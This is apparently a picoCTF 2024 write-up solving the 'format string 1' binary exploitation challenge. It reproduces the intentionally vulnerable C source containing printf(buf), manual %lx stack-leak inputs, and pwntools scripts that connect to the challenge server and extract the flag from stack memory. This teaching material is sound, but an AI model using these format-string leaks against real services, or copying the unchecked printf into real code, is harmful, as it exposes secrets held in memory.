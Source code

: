 # format string 1

- [Challenge information](#challenge-information)
- [Solution](#solution)
- [References](#references)

## Challenge information

```text
Level: Easy
Tags: picoCTF 2024, Binary Exploitation, format_string, browser_webshell_solvable
Author: SYREAL

Description:
Patrick and Sponge Bob were really happy with those orders you made for them, but now 
they're curious about the secret menu. Find it, and along the way, maybe you'll find 
something else of interest!

Download the binary here.
Download the source here.

Connect with the challenge instance here:
nc mimas.picoctf.net 60865
 
Hints:
1. https://lettieri.iet.unipi.it/hacking/format-strings.pdf
2. Just try out the different options
```

Challenge link: [https://play.picoctf.org/practice/challenge/434](https://play.picoctf.org/practice/challenge/434)

## Solution

### Analyse the C file

We start by analysing the C source code.

```c
#include <stdio.h>

int main() {
  char buf[1024];
  char secret1[64];
  char flag[64];
  char secret2[64];

  // Read in first secret menu item
  FILE *fd = fopen("secret-menu-item-1.txt", "r");
  if (fd == NULL){
    printf("'secret-menu-item-1.txt' file not found, aborting.\n");
    return 1;
  }
  fgets(secret1, 64, fd);
  // Read in the flag
  fd = fopen("flag.txt", "r");
  if (fd == NULL){
    printf("'flag.txt' file not found, aborting.\n");
    return 1;
  }
  fgets(flag, 64, fd);
  // Read in second secret menu item
  fd = fopen("secret-menu-item-2.txt", "r");
  if (fd == NULL){
    printf("'secret-menu-item-2.txt' file not found, aborting.\n");
    return 1;
  }
  fgets(secret2, 64, fd);

  printf("Give me your order and I'll read it back to you:\n");
  fflush(stdout);
  scanf("%1024s", buf);
  printf("Here's your order: ");
  printf(buf);
  printf("\n");
  fflush(stdout);

  printf("Bye!\n");
  fflush(stdout);

  return 0;
}
```

The program will:

- Open and read the `secret-menu-item-1.txt` file (64 bytes) into memory
- Open and read the `flag.txt` file (64 bytes) into memory
- Open and read the `secret-menu-item-2.txt` file (64 bytes) into memory
- Ask as for our order and read our answer (1024 characters) with `scanf`
- Print the order with a `printf` statement WITHOUT any format specifier(s)

We can read data from the stack, for example 64-bit integers shown in hex-format with the `%lx` format specifier or we can read and print the N:th integer with the form `%N$lx`. This can be done manually or semi-automated.

### Get the flag offset

The offset can be found manually by inputting a long string of items of the form `<offset>:%lx<delimiter>`.  
Here I have used dots (`.`) as delimiter.

```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/Binary_Exploitation/format_string_1]
└─$ ./format-string-1                                
Give me your order and I'll read it back to you:
1:%lx.2:%lx.3:%lx.4:%lx.5:%lx.6:%lx.7:%lx.8:%lx.9:%lx.10:%lx.11:%lx.12:%lx.13:%lx.14:%lx.15:%lx.16:%lx.17:%lx.18:%lx.19:%lx.20:%lx.
Here's your order: 1:7ffd81524750.2:0.3:0.4:a.5:400.6:6d20746572636553.7:6d65746920756e65.8:a322320.9:7f6580102ab0.10:7ffd00000000.11:7ffd81524978.12:0.13:7ffd81524980.14:7b4654436f636970.15:616c665f656b6166.16:a7d67.17:0.18:0.19:7f65800f8817.20:7f6580103648.
Bye!
```

Offset 14 looks promising and is indeed the ASCII-version of the start of the flag (in reverse order due to endianness).

```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/Binary_Exploitation/format_string_1]
└─$ echo '7b4654436f636970' | xxd -r -p | rev
picoCTF{  
```

We can also write a small python script with the help of [pwntools](https://docs.pwntools.com/en/stable/index.html) to find the offset for us

```python
#!/usr/bin/python

from pwn import *

SERVER = 'mimas.picoctf.net'
PORT = 60865
FLAG_START = 'picoCTF{'

# Set output level (critical, error, warning, info, debug)
context.update(log_level = "warning")

for i in range(1, 25):
    io = remote(SERVER, PORT)
    log.info(f"Trying offset {i}\n")
    io.sendlineafter(b"Give me your order and I'll read it back to you:\n", f"%{i}$lx")
    out = io.recvlineS().split(':')[1].strip()
    try:
        # Little endian case
        res_le = p64(int(out, 16), endianness="little").decode()
        if (res_le == FLAG_START):
            print(f"Found start of flag ({FLAG_START}) with little endian at offset {i}")
        # Big endian case
        res_be = p64(int(out, 16), endianness="big").decode()
        if (res_be == FLAG_START):
            print(f"Found start of flag ({FLAG_START}) with big endian at offset {i}")
    except Exception:
        pass
    io.recvall()
    io.close()
```

We run the script to get the offset

```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/Binary_Exploitation/format_string_1]
└─$ ~/python_venvs/pwntools/bin/python find_offset.py
/mnt/hgfs/CTFs/picoCTF/picoCTF_2024/Binary_Exploitation/format_string_1/find_offset.py:15: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  io.sendlineafter(b"Give me your order and I'll read it back to you:\n", f"%{i}$lx")
Found start of flag (picoCTF{) with little endian at offset 14  
```

Pwntools complains about my f-string that isn't bytes, but otherwise it works beautifully.  
We confirm that the flag starts at offset 14.

### Get the flag

Now that we know at which offset the flag start we can modify the script to extract the entire flag

```python
#!/usr/bin/python

from pwn import *

SERVER = 'mimas.picoctf.net'
PORT = 60865
offset = 14

# Set output level (critical, error, warning, info, debug)
context.update(log_level = "warning")

flag = b''
keep_going = True
while keep_going:
    io = remote(SERVER, PORT)    
    io.sendlineafter(b"Give me your order and I'll read it back to you:\n", f"%{offset}$lx")
    out = io.recvlineS().split(':')[1].strip()
    try:
        res_le = p64(int(out, 16), endianness="little")
        flag += res_le
        if (b'}' in res_le):
            keep_going = False
    except Exception:
        pass
    io.recvall()
    io.close()
    offset += 1

print(flag)
```

Finally, run the script to get the flag

```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/Binary_Exploitation/format_string_1]
└─$ ~/python_venvs/pwntools/bin/python get_flag.py
/mnt/hgfs/CTFs/picoCTF/picoCTF_2024/Binary_Exploitation/format_string_1/get_flag.py:16: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  io.sendlineafter(b"Give me your order and I'll read it back to you:\n", f"%{offset}$lx")
b'picoCTF{<REDACTED>}\x00'
```

For additional information, please see the references below.

## References

- [ASCII - Wikipedia](https://en.wikipedia.org/wiki/ASCII)
- [Endianness - Wikipedia](https://en.wikipedia.org/wiki/Endianness)
- [Format Specifiers in C - freeCodeCamp](https://www.freecodecamp.org/news/format-specifiers-in-c/)
- [Format Strings](https://lettieri.iet.unipi.it/hacking/format-strings.pdf)
- [nc - Linux manual page](https://linux.die.net/man/1/nc)
- [pwntools - Documentation](https://docs.pwntools.com/en/stable/index.html)
- [rev - Linux manual page](https://man7.org/linux/man-pages/man1/rev.1.html)
- [Stack-based memory allocation - Wikipedia](https://en.wikipedia.org/wiki/Stack-based_memory_allocation)
- [Uncontrolled format string - Wikipedia](https://en.wikipedia.org/wiki/Uncontrolled_format_string)
- [xxd - Linux manual page](https://linux.die.net/man/1/xxd)
